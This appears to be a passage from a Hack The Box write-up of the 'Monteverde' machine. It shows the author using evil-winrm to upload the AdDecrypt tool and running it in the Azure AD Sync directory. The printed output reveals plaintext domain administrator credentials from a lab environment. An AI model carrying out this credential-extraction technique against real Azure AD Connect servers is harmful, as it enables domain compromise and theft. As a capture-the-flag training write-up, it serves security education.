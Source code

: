 I omitted some of the results, but it looks like the user mhope is apart of the `Azure Admins` group. After some research on a potential CVE, we'll find [this article](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/), which provides great information on an exploit that allows a user to retrieve plaintext credentials of the privileged account being utilized by the Azure AD Connect.

Let's download the two files `AdDecrypt.exe` and `mcrypt.dll` and uploaded them to _Monteverde_ using the built-in `upload` feature on `evil-winrm`.

![](/assets/img/posts/htb/05-2020-3/uploads.png)

Afterwards, we'll navigate to the `Microsoft Azure AD Sync\Bin` directory, and run the executable.

```powershell
> cd “C:\Program Files\Microsoft Azure AD Sync\Bin”
> C:\Users\mhope\AdDecrypt.exe -FullSQL
```

Pretty quickly we receive credentials. Fortunately for us, they are for the administrator account!

```powershell
======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```
